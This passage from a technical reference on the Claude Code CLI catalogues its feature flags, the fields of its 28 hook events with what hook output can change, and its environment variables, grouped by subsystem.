| AUTO_THEME | Auto theme detection | Ant | Theme settings options |
| NATIVE_CLIPBOARD_IMAGE | Native clipboard image paste | Ant | Image paste handling |
| HISTORY_PICKER | History picker UI | Ant | History navigation UI |
| ULTRAPLAN | Ultraplan planning mode | Ant | Ultraplan choice/launch dialogs in REPL |
| ULTRATHINK | Ultra-thinking mode | Ant | Thinking configuration |
| STREAMLINED_OUTPUT | Streamlined output format | Ant | Output rendering in print.ts |

## Skill and Plugin Flags

| Flag Name | Purpose | Ant/External | Gated Code Paths |
|---|---|---|---|
| EXPERIMENTAL_SKILL_SEARCH | Skill search functionality | Ant | Skill search section, DiscoverSkills tool, skill index cache |
| SKILL_IMPROVEMENT | Skill improvement suggestions | Ant | Skill improvement flow |
| RUN_SKILL_GENERATOR | Skill generator execution | Ant | Skill generator in bundled skills |
| MCP_SKILLS | MCP skills integration | Ant | MCP skill fetching, resource-based skills |
| MCP_RICH_OUTPUT | Rich MCP output rendering | Ant | MCPTextOutput component in MCPTool UI |
| TEMPLATES | Template job classification | Ant | Job classifier in query, markdown config |
| BUILDING_CLAUDE_APPS | Claude apps building skill | Ant | Building-claude-apps bundled skill |
| REVIEW_ARTIFACT | Review artifact skill | Ant | Review artifact bundled skill |

## Telemetry and Diagnostics Flags

| Flag Name | Purpose | Ant/External | Gated Code Paths |
|---|---|---|---|
| ENHANCED_TELEMETRY_BETA | Enhanced telemetry | Ant | Session tracing configuration |
| PERFETTO_TRACING | Perfetto trace export | Ant | Perfetto tracing initialization |
| MEMORY_SHAPE_TELEMETRY | Memory shape telemetry | Ant | Memory file access hooks |
| COWORKER_TYPE_TELEMETRY | Coworker type telemetry | Ant | Coworker type metadata |
| SHOT_STATS | Shot-level statistics | Ant | Shot distribution tracking in stats |
| SLOW_OPERATION_LOGGING | Slow operation logging | Ant | Slow operation threshold configuration |
| DUMP_SYSTEM_PROMPT | System prompt dump | Ant | System prompt dump to file |

## Settings, Configuration, and Miscellaneous Flags

| Flag Name | Purpose | Ant/External | Gated Code Paths |
|---|---|---|---|
| UPLOAD_USER_SETTINGS | Upload user settings sync | Ant | Settings upload in main.tsx |
| DOWNLOAD_USER_SETTINGS | Download user settings sync | Ant | Settings download in print.ts, reload-plugins |
| TOKEN_BUDGET | Token budget tracking | Ant | Token budget section, budget tracker in query |
| PROACTIVE | Proactive agent behavior | Ant | Proactive section, SuggestBackgroundPRTool, proactive module |
| CONNECTOR_TEXT | Connector text summarization | Ant | Summarize connector text beta header |
| COMMIT_ATTRIBUTION | Commit attribution tracking | Ant | Commit attribution setup, session restore |
| HOOK_PROMPTS | Hook prompt request support | Ant | Prompt request passing in REPL query |
| HARD_FAIL | Hard failure mode | Ant | Hard-fail error handling in log.ts |
| BREAK_CACHE_COMMAND | Cache-break command injection | Ant | Context injection in context.ts |
| EXTRACT_MEMORIES | Memory extraction mode | Ant | Extract memories module in print.ts |
| FILE_PERSISTENCE | File persistence tracking | Ant | File persistence in filePersistence.ts |
| ABLATION_BASELINE | Ablation baseline mode | Ant | Ablation baseline env var check |
| AWAY_SUMMARY | Away summary feature | Ant | Away summary rendering in REPL |
| DAEMON | Background daemon mode | Ant | Daemon startup, persistent sessions |
| CHICAGO_MCP | MCP tool proxy mode | Ant | MCP tool proxy configuration, computer use wrapper |
| NEW_INIT | New initialization flow | Ant | Init command flow |
| SELF_HOSTED_RUNNER | Self-hosted runner mode | Ant | Runner configuration |
| BYOC_ENVIRONMENT_RUNNER | BYOC environment runner | Ant | BYOC runner setup |
| ALLOW_TEST_VERSIONS | Allow test version numbers | Ant | Version validation bypass for 99.99.x |
| IS_LIBC_GLIBC | glibc detection | Build | Libc detection for native module loading |
| IS_LIBC_MUSL | musl detection | Build | Libc detection for native module loading |
| TORCH | Torch integration | Ant | Torch-related features |
| UNATTENDED_RETRY | Unattended retry mode | Ant | Retry logic in withRetry.ts |

**Source**: All flags extracted via `grep -r "feature('" src/ | grep -oP "feature\('([^']+)'\)" | sort -u`. Total: 97 unique flags.

# Appendix G. Hook Event Reference

The Claude Code hook system fires events at well-defined points in the session lifecycle. Hooks can be configured in `settings.json` as command hooks (shell scripts), prompt hooks (natural-language instructions the model receives), agent hooks (subagent invocations), or HTTP hooks (webhook POST requests). All hook events share a set of base fields defined in `BaseHookInputSchema`:

- `session_id` (string): Current session identifier
- `transcript_path` (string): Path to the session transcript file
- `cwd` (string): Current working directory
- `permission_mode` (string, optional): Active permission mode
- `agent_id` (string, optional): Subagent identifier, present only when the hook fires from within a subagent
- `agent_type` (string, optional): Agent type name (e.g., "general-purpose"), present for subagents or main-thread --agent sessions

The table below lists all 28 hook events, their event-specific fields, and what they can modify through hook output.

## Tool Lifecycle Events

| Event Name | When It Fires | Event-Specific Fields | What It Can Modify |
|---|---|---|---|
| PreToolUse | Before a tool is executed | `tool_name`, `tool_input`, `tool_use_id` | Permission decision (approve/block), modified input (`updatedInput`), updated permissions (`updatedPermissions`), additional context (`additionalContext`) |
| PostToolUse | After a tool completes successfully | `tool_name`, `tool_input`, `tool_response`, `tool_use_id` | Additional context (`additionalContext`), modified MCP tool output (`updatedMCPToolOutput`) |
| PostToolUseFailure | After a tool fails | `tool_name`, `tool_input`, `tool_use_id`, `error`, `is_interrupt?` | Additional context (`additionalContext`) |
| PermissionRequest | When a permission is requested | `tool_name`, `tool_input`, `permission_suggestions?` | Decision (allow with `updatedInput`/`updatedPermissions`, or deny with `message`/`interrupt`) |
| PermissionDenied | When a permission is denied | `tool_name`, `tool_input`, `tool_use_id`, `reason` | Retry flag (`retry`) |

## Session Lifecycle Events

| Event Name | When It Fires | Event-Specific Fields | What It Can Modify |
|---|---|---|---|
| SessionStart | When a new session begins | `source` (startup / resume / clear / compact), `agent_type?`, `model?` | Additional context (`additionalContext`), initial user message (`initialUserMessage`), watch paths (`watchPaths`) |
| SessionEnd | When a session ends | `reason` (clear / resume / logout / prompt_input_exit / other / bypass_permissions_disabled) | Clean up resources, save state (no specific output fields) |
| Setup | During initial setup | `trigger` (init / maintenance) | Additional context (`additionalContext`) |
| Stop | When the agent stops normally | `stop_hook_active`, `last_assistant_message?` | Continue flag, stop reason, system message |
| StopFailure | When the agent stops due to failure | `error` (authentication_failed / billing_error / rate_limit / invalid_request / server_error / unknown / max_output_tokens), `error_details?`, `last_assistant_message?` | Continue flag, stop reason, system message |

## User Input Events

| Event Name | When It Fires | Event-Specific Fields | What It Can Modify |
|---|---|---|---|
| UserPromptSubmit | When user submits a prompt | `prompt` | Additional context (`additionalContext`) |
| Notification | Asynchronous notification | `message`, `title?`, `notification_type` | Additional context (`additionalContext`) |

## Agent Lifecycle Events

| Event Name | When It Fires | Event-Specific Fields | What It Can Modify |
|---|---|---|---|
| SubagentStart | When a sub-agent is spawned | `agent_id`, `agent_type` | Additional context (`additionalContext`) |
| SubagentStop | When a sub-agent completes | `stop_hook_active`, `agent_id`, `agent_transcript_path`, `agent_type`, `last_assistant_message?` | Continue flag, stop reason, system message |
| TeammateIdle | When a teammate agent becomes idle | `teammate_name`, `team_name` | Continue flag, stop reason, system message |

## Task Events

| Event Name | When It Fires | Event-Specific Fields | What It Can Modify |
|---|---|---|---|
| TaskCreated | When a task is created | `task_id`, `task_subject`, `task_description?`, `teammate_name?`, `team_name?` | Continue flag, stop reason, system message |
| TaskCompleted | When a task is completed | `task_id`, `task_subject`, `task_description?`, `teammate_name?`, `team_name?` | Continue flag, stop reason, system message |

## Context Management Events

| Event Name | When It Fires | Event-Specific Fields | What It Can Modify |
|---|---|---|---|
| PreCompact | Before context compaction | `trigger` (manual / auto), `custom_instructions` (nullable) | Continue flag, stop reason, system message |
| PostCompact | After context compaction | `trigger` (manual / auto), `compact_summary` | Continue flag, stop reason, system message |

## Configuration and File System Events

| Event Name | When It Fires | Event-Specific Fields | What It Can Modify |
|---|---|---|---|
| ConfigChange | When configuration changes | `source` (user_settings / project_settings / local_settings / policy_settings / skills), `file_path?` | Continue flag, stop reason, system message |
| CwdChanged | When working directory changes | `old_cwd`, `new_cwd` | Watch paths (`watchPaths`) |
| FileChanged | When a watched file is modified | `file_path`, `event` (change / add / unlink) | Watch paths (`watchPaths`) |
| InstructionsLoaded | When CLAUDE.md is loaded | `file_path`, `memory_type` (User / Project / Local / Managed), `load_reason` (session_start / nested_traversal / path_glob_match / include / compact), `globs?`, `trigger_file_path?`, `parent_file_path?` | Continue flag, stop reason, system message |

## Worktree Events

| Event Name | When It Fires | Event-Specific Fields | What It Can Modify |
|---|---|---|---|
| WorktreeCreate | When a git worktree is created | `name` | Worktree path (`worktreePath`) |
| WorktreeRemove | When a git worktree is removed | `worktree_path` | Continue flag, stop reason, system message |

## MCP Elicitation Events

| Event Name | When It Fires | Event-Specific Fields | What It Can Modify |
|---|---|---|---|
| Elicitation | When an MCP server requests user input | `mcp_server_name`, `message`, `mode?` (form / url), `url?`, `elicitation_id?`, `requested_schema?` | Action (accept / decline / cancel), content |
| ElicitationResult | After user responds to an MCP elicitation | `mcp_server_name`, `elicitation_id?`, `mode?` (form / url), `action` (accept / decline / cancel), `content?` | Override action and content before response is sent to MCP server |

## Common Hook Output Fields

All synchronous hook outputs can include these general-purpose fields (defined in `SyncHookJSONOutputSchema`):

| Field | Type | Purpose |
|---|---|---|
| `continue` | boolean | Whether to continue processing |
| `suppressOutput` | boolean | Whether to suppress hook output display |
| `stopReason` | string | Reason for stopping (if applicable) |
| `decision` | "approve" or "block" | Permission decision (PreToolUse context) |
| `systemMessage` | string | System message to inject |
| `reason` | string | Reason for the decision |
| `hookSpecificOutput` | object | Event-specific output (keyed by `hookEventName`) |

Hooks can also return an async output (`{ async: true, asyncTimeout?: number }`) to indicate that the hook will complete asynchronously.

**Source files**: `src/entrypoints/sdk/coreTypes.ts` (HOOK_EVENTS array, lines 24-52), `src/entrypoints/sdk/coreSchemas.ts` (all hook input and output schemas), `src/utils/hooks.ts` (hook execution infrastructure).

# Appendix H. Environment Variables

Claude Code reads a large number of environment variables to configure its behavior at runtime. Unlike feature flags (which are compile-time constants), environment variables can be set by users, CI systems, SDK hosts, and the bridge subsystem. This appendix catalogs the most significant variables, grouped by subsystem.

## Authentication and API Provider Selection

| Variable | Subsystem | Description | Default |
|---|---|---|---|
| ANTHROPIC_API_KEY | Auth | API key for direct Anthropic API access | None |
| ANTHROPIC_AUTH_TOKEN | Auth | Alternative auth token (OAuth or API key) | None |
| CLAUDE_CODE_OAUTH_TOKEN | Auth | OAuth token for claude.ai authentication | None |
| CLAUDE_CODE_OAUTH_TOKEN_FILE_DESCRIPTOR | Auth | File descriptor containing OAuth token | None |
| CLAUDE_CODE_OAUTH_REFRESH_TOKEN | Auth | OAuth refresh token for token renewal | None |
| CLAUDE_CODE_OAUTH_SCOPES | Auth | OAuth scopes for refresh token | None |
| CLAUDE_CODE_API_KEY_FILE_DESCRIPTOR | Auth | File descriptor containing API key | None |
| CLAUDE_CODE_API_KEY_HELPER_TTL_MS | Auth | TTL for API key helper cache | None |
| CLAUDE_CODE_USE_BEDROCK | Auth | Use AWS Bedrock for inference | false |
| CLAUDE_CODE_USE_VERTEX | Auth | Use Google Vertex AI for inference | false |
| CLAUDE_CODE_USE_FOUNDRY | Auth | Use Anthropic Foundry for inference | false |
| CLAUDE_CODE_SKIP_BEDROCK_AUTH | Auth | Skip Bedrock credential validation | false |
| CLAUDE_CODE_SKIP_VERTEX_AUTH | Auth | Skip Vertex credential validation | false |
| CLAUDE_CODE_SKIP_FOUNDRY_AUTH | Auth | Skip Foundry credential validation | false |
| CLAUDE_TRUSTED_DEVICE_TOKEN | Auth | Override trusted device token | None |
| CLAUDE_CODE_ACCOUNT_UUID | Auth | Account UUID for OAuth context | None |
| CLAUDE_CODE_USER_EMAIL | Auth | User email for OAuth context | None |
| CLAUDE_CODE_ORGANIZATION_UUID | Auth | Organization UUID for OAuth context | None |
| CLAUDE_CODE_ENABLE_XAA | Auth | Enable XAA IDP login flow | false |

## API and Network Configuration

| Variable | Subsystem | Description | Default |
|---|---|---|---|
| ANTHROPIC_BASE_URL | API | Base URL for Anthropic API | None (uses OAuth config default) |
| ANTHROPIC_CUSTOM_HEADERS | API | Custom headers for API requests (JSON or key:value format) | None |
| ANTHROPIC_BETAS | API | Comma-separated list of beta features to enable | None |
| ANTHROPIC_UNIX_SOCKET | API | Unix socket path for API connection | None |
| ANTHROPIC_BEDROCK_BASE_URL | API | Override Bedrock endpoint URL | None |
| ANTHROPIC_FOUNDRY_BASE_URL | API | Override Foundry endpoint URL | None |
| ANTHROPIC_FOUNDRY_RESOURCE | API | Foundry resource identifier | None |
| ANTHROPIC_FOUNDRY_API_KEY | API | API key for Foundry access | None |
| ANTHROPIC_VERTEX_PROJECT_ID | API | Google Cloud project ID for Vertex | None |
| CLAUDE_CODE_API_BASE_URL | API | Alternative base URL for API | None |
| CLAUDE_CODE_EXTRA_BODY | API | Extra JSON body fields for API requests | None |
| CLAUDE_CODE_EXTRA_METADATA | API | Extra metadata for API requests | None |
| CLAUDE_CODE_ADDITIONAL_PROTECTION | API | Additional protection header value | None |
| CLAUDE_CODE_MAX_RETRIES | API | Maximum number of API retries | Provider-dependent |
| CLAUDE_CODE_UNATTENDED_RETRY | API | Enable unattended retry mode | false |
| CLAUDE_CODE_PROXY_RESOLVES_HOSTS | Network | Proxy resolves hostnames (skip DNS) | false |

## Model Selection and Configuration

| Variable | Subsystem | Description | Default |
|---|---|---|---|
| ANTHROPIC_MODEL | Model | Override the default model | None |
| ANTHROPIC_SMALL_FAST_MODEL | Model | Override the small/fast model (Haiku) | None |
| ANTHROPIC_SMALL_FAST_MODEL_AWS_REGION | Model | AWS region for small/fast model on Bedrock | None |
| ANTHROPIC_DEFAULT_OPUS_MODEL | Model | Custom Opus model identifier | None |
| ANTHROPIC_DEFAULT_OPUS_MODEL_NAME | Model | Display name for custom Opus model | None |
| ANTHROPIC_DEFAULT_OPUS_MODEL_DESCRIPTION | Model | Description for custom Opus model | None |
| ANTHROPIC_DEFAULT_SONNET_MODEL | Model | Custom Sonnet model identifier | None |
| ANTHROPIC_DEFAULT_SONNET_MODEL_NAME | Model | Display name for custom Sonnet model | None |
| ANTHROPIC_DEFAULT_SONNET_MODEL_DESCRIPTION | Model | Description for custom Sonnet model | None |
| ANTHROPIC_DEFAULT_HAIKU_MODEL | Model | Custom Haiku model identifier | None |
| ANTHROPIC_DEFAULT_HAIKU_MODEL_NAME | Model | Display name for custom Haiku model | None |
| ANTHROPIC_DEFAULT_HAIKU_MODEL_DESCRIPTION | Model | Description for custom Haiku model | None |
| ANTHROPIC_CUSTOM_MODEL_OPTION | Model | Entirely custom model identifier | None |
| ANTHROPIC_CUSTOM_MODEL_OPTION_NAME | Model | Display name for custom model | None |
| ANTHROPIC_CUSTOM_MODEL_OPTION_DESCRIPTION | Model | Description for custom model | None |
| CLAUDE_CODE_MAX_OUTPUT_TOKENS | Model | Maximum output tokens per turn | Model default |
| CLAUDE_CODE_MAX_CONTEXT_TOKENS | Model | Override maximum context window size | Model default |
| CLAUDE_CODE_SUBAGENT_MODEL | Model | Override model for subagent sessions | Parent model |
| CLAUDE_CODE_DISABLE_THINKING | Model | Disable extended thinking entirely | false |
| CLAUDE_CODE_DISABLE_ADAPTIVE_THINKING | Model | Disable adaptive thinking (Opus 4.6+) | false |
| CLAUDE_CODE_DISABLE_LEGACY_MODEL_REMAP | Model | Disable legacy model name remapping | false |
| CLAUDE_CODE_DISABLE_1M_CONTEXT | Model | Disable 1M context window | false |
| CLAUDE_CODE_EFFORT_LEVEL | Model | Override effort level (low/medium/high/max) | None |
| CLAUDE_CODE_ALWAYS_ENABLE_EFFORT | Model | Always show effort level controls | false |

## Mode and Entrypoint Configuration

| Variable | Subsystem | Description | Default |
|---|---|---|---|
| CLAUDE_CODE_SIMPLE | Mode | Simple mode (Bash, Read, Edit only) | false |
| CLAUDE_CODE_BARE | Mode | Bare mode (no TUI, minimal features) | false |
| CLAUDE_CODE_ENTRYPOINT | Mode | Entrypoint identifier (cli / sdk-ts / sdk-py / sdk-cli / mcp / remote / local-agent / claude-desktop / claude-vscode / claude-code-github-action) | cli |
| CLAUDE_CODE_COORDINATOR_MODE | Mode | Enable coordinator mode | false |
| CLAUDE_CODE_ACTION | Mode | GitHub Action mode | false |
| CLAUDE_CODE_PROACTIVE | Mode | Enable proactive agent behavior | false |
| CLAUDE_CODE_BRIEF | Mode | Enable brief response mode | false |
| CLAUDE_CODE_VERIFY_PLAN | Mode | Enable plan verification mode | false |
| CLAUDE_CODE_PLAN_MODE_REQUIRED | Mode | Require plan mode for teammates | false |
| CLAUDE_CODE_UNDERCOVER | Mode | Undercover mode (ant-internal) | false |

## Bridge and Remote Mode

| Variable | Subsystem | Description | Default |
|---|---|---|---|
| CLAUDE_CODE_REMOTE | Bridge | Running in remote/bridge mode | false |
| CLAUDE_CODE_REMOTE_SESSION_ID | Bridge | Remote session identifier | None |
| CLAUDE_CODE_REMOTE_MEMORY_DIR | Bridge | Override memory directory for remote mode | None |
| CLAUDE_CODE_REMOTE_ENVIRONMENT_TYPE | Bridge | Remote environment type metadata | None |
| CLAUDE_CODE_ENVIRONMENT_KIND | Bridge | Environment type indicator (e.g., "bridge") | None |
| CLAUDE_CODE_SESSION_ACCESS_TOKEN | Bridge | Session access token for ingress auth | None |
| CLAUDE_CODE_WEBSOCKET_AUTH_FILE_DESCRIPTOR | Bridge | File descriptor for WebSocket auth | None |
| CLAUDE_CODE_USE_CCR_V2 | Bridge | Use CCR v2 transport protocol | false |
| CLAUDE_CODE_POST_FOR_SESSION_INGRESS_V2 | Bridge | Use POST for session ingress v2 | false |
| CLAUDE_CODE_WORKER_EPOCH | Bridge | Worker epoch for CCR v2 | None |
| CLAUDE_BRIDGE_BASE_URL | Bridge | Override bridge base URL (dev) | None |
| CLAUDE_BRIDGE_USE_CCR_V2 | Bridge | Override CCR v2 usage (dev) | false |
| CLAUDE_BRIDGE_SESSION_INGRESS_URL | Bridge | Override session ingress URL (dev) | None |
| CLAUDE_BRIDGE_OAUTH_TOKEN | Bridge | Override bridge OAuth token | None |
| CLAUDE_CODE_CCR_MIRROR | Bridge | Enable CCR mirror mode | false |
| CLAUDE_CODE_CONTAINER_ID | Bridge | Container identifier for remote sessions | None |
| CLAUDE_CODE_REMOTE_SEND_KEEPALIVES | Bridge | Send keepalive messages in remote mode | false |

## SDK and Agent Integration

| Variable | Subsystem | Description | Default |
|---|---|---|---|
| CLAUDE_AGENT_SDK_VERSION | SDK | Agent SDK version identifier | None |
| CLAUDE_AGENT_SDK_CLIENT_APP | SDK | Client application identifier | None |
| CLAUDE_AGENT_SDK_MCP_NO_PREFIX | SDK | Skip shell prefix for MCP server commands | false |
| CLAUDE_AGENT_SDK_DISABLE_BUILTIN_AGENTS | SDK | Disable built-in agent types | false |
| CLAUDE_CODE_STREAM_CLOSE_TIMEOUT | SDK | Timeout for MCP stream close (ms) | 60000 |
| CLAUDE_CODE_AGENT | Agent | Agent CLI definition path | None |
| CLAUDE_CODE_TASK_LIST_ID | Agent | Task list identifier for agent | None |
| CLAUDE_CODE_SESSION_KIND | Agent | Session kind (main / bg) | None |
| CLAUDE_CODE_SESSION_NAME | Agent | Named session identifier | None |
| CLAUDE_CODE_SESSION_LOG | Agent | Session log path | None |
| CLAUDE_CODE_MESSAGING_SOCKET | Agent | Unix socket path for messaging | None |
| CLAUDE_CODE_SESSION_ID | Agent | Session identifier (ant-internal) | None |
| CLAUDE_CODE_IS_COWORK | Agent | Running in cowork mode | false |

## Privacy, Telemetry, and Diagnostics

| Variable | Subsystem | Description | Default |
|---|---|---|---|
| CLAUDE_CODE_DISABLE_NONESSENTIAL_TRAFFIC | Privacy | Disable non-essential network requests (telemetry, GrowthBook, official registry) | false |
| CLAUDE_CODE_ENABLE_TELEMETRY | Telemetry | Enable OpenTelemetry instrumentation | false |
| CLAUDE_CODE_OTEL_SHUTDOWN_TIMEOUT_MS | Telemetry | OTEL shutdown timeout (ms) | 2000 |
| CLAUDE_CODE_OTEL_FLUSH_TIMEOUT_MS | Telemetry | OTEL flush timeout (ms) | 5000 |
| CLAUDE_CODE_OTEL_HEADERS_HELPER_DEBOUNCE_MS | Telemetry | OTEL headers helper debounce (ms) | None |
| CLAUDE_CODE_ENHANCED_TELEMETRY_BETA | Telemetry | Enhanced telemetry beta setting | None |
| CLAUDE_CODE_PERFETTO_TRACE | Telemetry | Perfetto trace output file path | None |
| CLAUDE_CODE_PERFETTO_WRITE_INTERVAL_S | Telemetry | Perfetto write interval (seconds) | None |
| CLAUDE_CODE_DATADOG_FLUSH_INTERVAL_MS | Telemetry | Datadog flush interval (ms) | None |
| CLAUDE_CODE_DIAGNOSTICS_FILE | Diagnostics | Diagnostics output file path | None |
| CLAUDE_CODE_DEBUG_LOG_LEVEL | Diagnostics | Debug log level (error/warn/info/debug/trace) | None |
| CLAUDE_CODE_DEBUG_LOGS_DIR | Diagnostics | Debug logs directory | None |
| CLAUDE_DEBUG | Diagnostics | Enable verbose debug output | false |
| CLAUDE_CODE_PROFILE_STARTUP | Diagnostics | Enable startup profiling | false |
| CLAUDE_CODE_PROFILE_QUERY | Diagnostics | Enable query profiling | false |
| CLAUDE_CODE_DUMP_AUTO_MODE | Diagnostics | Dump auto-mode classifier decisions | false |

## Tool and Feature Configuration

| Variable | Subsystem | Description | Default |
|---|---|---|---|
| ENABLE_LSP_TOOL | Tools | Enable the LSP tool | false |
| DISABLE_PROMPT_CACHING | Performance | Disable prompt caching | false |
| CLAUDE_CODE_DISABLE_FAST_MODE | Performance | Disable fast mode (Haiku routing) | false |
| CLAUDE_CODE_SKIP_FAST_MODE_NETWORK_ERRORS | Performance | Skip fast mode on network errors | false |
| CLAUDE_CODE_MAX_TOOL_USE_CONCURRENCY | Tools | Maximum parallel tool executions | 10 |
| CLAUDE_CODE_DISABLE_BACKGROUND_TASKS | Tools | Disable background task support | false |
| CLAUDE_CODE_DISABLE_CRON | Tools | Disable cron scheduling | false |
| CLAUDE_CODE_FILE_READ_MAX_OUTPUT_TOKENS | Tools | Override file read max output tokens | None |
| CLAUDE_CODE_DISABLE_COMMAND_INJECTION_CHECK | Security | Disable command injection detection | false |
| CLAUDE_CODE_DISABLE_FILE_CHECKPOINTING | Tools | Disable file checkpointing/undo | false |
| CLAUDE_CODE_ENABLE_SDK_FILE_CHECKPOINTING | Tools | Enable file checkpointing in SDK mode | false |
| CLAUDE_CODE_DISABLE_ADVISOR_TOOL | Tools | Disable advisor tool | false |
| CLAUDE_CODE_DISABLE_ATTACHMENTS | Tools | Disable message attachments | false |
| CLAUDE_CODE_ENABLE_TOKEN_USAGE_ATTACHMENT | Tools | Enable token usage attachment | false |
| CLAUDE_CODE_GLOB_TIMEOUT_SECONDS | Tools | Timeout for glob operations (seconds) | 0 (no timeout) |
| CLAUDE_CODE_GLOB_NO_IGNORE | Tools | Disable .gitignore in glob | true |
| CLAUDE_CODE_GLOB_HIDDEN | Tools | Include hidden files in glob | true |
| CLAUDE_CODE_ENABLE_FINE_GRAINED_TOOL_STREAMING | Tools | Enable fine-grained tool streaming | false |
| CLAUDE_CODE_TWO_STAGE_CLASSIFIER | Security | Enable two-stage bash classifier | None |
| CLAUDE_CODE_AUTO_MODE_MODEL | Security | Model for auto-mode classifier | None |
| CLAUDE_CODE_JSONL_TRANSCRIPT | Diagnostics | Enable JSONL transcript output | None |
| ENABLE_TOOL_SEARCH | Tools | Override tool search enablement | None |

## UI and Display Configuration

| Variable | Subsystem | Description | Default |
|---|---|---|---|
| CLAUDE_CODE_DISABLE_TERMINAL_TITLE | UI | Disable terminal title updates | false |
| CLAUDE_CODE_DISABLE_VIRTUAL_SCROLL | UI | Disable virtual scroll rendering | false |
| CLAUDE_CODE_DISABLE_MOUSE | UI | Disable mouse support | false |
| CLAUDE_CODE_DISABLE_MOUSE_CLICKS | UI | Disable mouse click handling | false |
| CLAUDE_CODE_NO_FLICKER | UI | Enable flicker-free rendering | Platform-dependent |
| CLAUDE_CODE_ACCESSIBILITY | UI | Enable accessibility mode | false |
| CLAUDE_CODE_SCROLL_SPEED | UI | Scroll speed multiplier | None |
| CLAUDE_CODE_FORCE_FULL_LOGO | UI | Force full logo display | false |
| CLAUDE_CODE_SYNTAX_HIGHLIGHT | UI | Syntax highlighting theme (or "false" to disable) | BAT_THEME or auto |
| CLAUDE_CODE_DISABLE_MESSAGE_ACTIONS | UI | Disable message action buttons | false |
| CLAUDE_CODE_EXIT_AFTER_FIRST_RENDER | UI | Exit after first render (testing) | false |
| CLAUDE_CODE_FRAME_TIMING_LOG | UI | Frame timing log file path | None |
| CLAUDE_CODE_COMMIT_LOG | UI | Commit log file for reconciler | None |
| CLAUDE_CODE_DEBUG_REPAINTS | UI | Debug repaint cycle logging | false |
| CLAUDE_CODE_TERMINAL_RECORDING | UI | Enable terminal recording (asciicast) | false |
| CLAUDE_CODE_ENABLE_PROMPT_SUGGESTION | UI | Enable prompt suggestions | None |
| CLAUDE_CODE_QUESTION_PREVIEW_FORMAT | UI | Question preview format | None |

## Session, Memory, and Configuration Paths

| Variable | Subsystem | Description | Default |
|---|---|---|---|
| CLAUDE_CONFIG_DIR | Config | Override ~/.claude config directory | ~/.claude |
| CLAUDE_ENV_FILE | Config | Path to environment file | None |
| CLAUDE_CODE_OVERRIDE_DATE | Config | Override current date string | None |
| CLAUDE_CODE_MANAGED_SETTINGS_PATH | Config | Override managed settings file path | None |
| CLAUDE_CODE_DISABLE_AUTO_MEMORY | Memory | Disable automatic memory creation | false |
| CLAUDE_CODE_DISABLE_CLAUDE_MDS | Memory | Disable CLAUDE.md loading | false |
| CLAUDE_CODE_ADDITIONAL_DIRECTORIES_CLAUDE_MD | Memory | Additional directories for CLAUDE.md search | None |
| CLAUDE_COWORK_MEMORY_PATH_OVERRIDE | Memory | Override cowork memory path | None |
| CLAUDE_COWORK_MEMORY_EXTRA_GUIDELINES | Memory | Extra guidelines for cowork memory | None |
| CLAUDE_CODE_DISABLE_GIT_INSTRUCTIONS | Memory | Disable git-related instructions | false |
| CLAUDE_CODE_USE_NATIVE_FILE_SEARCH | Config | Use native file search for markdown config | false |
| CLAUDE_CODE_ATTRIBUTION_HEADER | Config | Override attribution header | None |
| CLAUDE_CODE_BASE_REF | Git | Override git base ref for diffs | default branch |
| CLAUDE_BASH_MAINTAIN_PROJECT_WORKING_DIR | Shell | Maintain project working directory in bash | false |
| CLAUDE_CODE_SHELL | Shell | Override shell binary path | None |
| CLAUDE_CODE_SHELL_PREFIX | Shell | Shell prefix command for MCP/hook processes | None |
| CLAUDE_CODE_TMPDIR | Shell | Override temporary directory path | /tmp |
| CLAUDE_CODE_GIT_BASH_PATH | Shell | Override Git Bash path (Windows) | None |
| CLAUDE_CODE_PWSH_PARSE_TIMEOUT_MS | Shell | PowerShell parse timeout (ms) | None |
| CLAUDE_CODE_USE_POWERSHELL_TOOL | Shell | Enable/disable PowerShell tool | Platform-dependent |

## AWS-Specific Variables

| Variable | Subsystem | Description | Default |
|---|---|---|---|
| AWS_REGION | AWS | AWS region for Bedrock | us-east-1 |
| AWS_DEFAULT_REGION | AWS | Fallback AWS region | us-east-1 |
| AWS_BEARER_TOKEN_BEDROCK | AWS | Bearer token for Bedrock authentication | None |
| AWS_LAMBDA_FUNCTION_NAME | AWS | Lambda function name (platform detection) | None |
| AWS_EXECUTION_ENV | AWS | AWS execution environment (platform detection) | None |

## mTLS and Certificate Configuration

| Variable | Subsystem | Description | Default |
|---|---|---|---|
| CLAUDE_CODE_CLIENT_CERT | mTLS | Client certificate file path | None |
| CLAUDE_CODE_CLIENT_KEY | mTLS | Client private key file path | None |
| CLAUDE_CODE_CLIENT_KEY_PASSPHRASE | mTLS | Client key passphrase | None |

## Plugin and Extension Configuration

| Variable | Subsystem | Description | Default |
|---|---|---|---|
| CLAUDE_CODE_PLUGIN_CACHE_DIR | Plugins | Override plugin cache directory | None |
| CLAUDE_CODE_PLUGIN_SEED_DIR | Plugins | Plugin seed directory | None |
| CLAUDE_CODE_PLUGIN_GIT_TIMEOUT_MS | Plugins | Git timeout for plugin operations (ms) | None |
| CLAUDE_CODE_PLUGIN_USE_ZIP_CACHE | Plugins | Use zip cache for plugins | false |
| CLAUDE_CODE_USE_COWORK_PLUGINS | Plugins | Enable cowork plugins | false |
| CLAUDE_CODE_SYNC_PLUGIN_INSTALL | Plugins | Synchronous plugin installation | false |
| CLAUDE_CODE_SYNC_PLUGIN_INSTALL_TIMEOUT_MS | Plugins | Plugin install timeout (ms) | None |
| CLAUDE_CODE_DISABLE_OFFICIAL_MARKETPLACE_AUTOINSTALL | Plugins | Disable marketplace auto-install | false |
| CLAUDE_CODE_DISABLE_POLICY_SKILLS | Plugins | Disable policy-managed skills | false |
| CLAUDE_CODE_SSE_PORT | IDE | SSE port for IDE integration | None |
| CLAUDE_CODE_IDE_SKIP_VALID_CHECK | IDE | Skip IDE validation check | false |
| CLAUDE_CODE_IDE_SKIP_AUTO_INSTALL | IDE | Skip IDE extension auto-install | false |
| CLAUDE_CODE_IDE_HOST_OVERRIDE | IDE | Override IDE host | None |
| CLAUDE_CODE_AUTO_CONNECT_IDE | IDE | Auto-connect to IDE | false |

## Compaction and Context Management

| Variable | Subsystem | Description | Default |
|---|---|---|---|
| CLAUDE_CODE_AUTO_COMPACT_WINDOW | Compact | Auto-compact trigger window (token count) | None |
| CLAUDE_AUTOCOMPACT_PCT_OVERRIDE | Compact | Auto-compact percentage override | None |
| CLAUDE_CODE_BLOCKING_LIMIT_OVERRIDE | Compact | Blocking limit override for auto-compact | None |
| CLAUDE_CODE_DISABLE_PRECOMPACT_SKIP | Compact | Disable pre-compact skip optimization | false |
| CLAUDE_CODE_MCP_INSTR_DELTA | Compact | Enable MCP instructions delta mode | None |
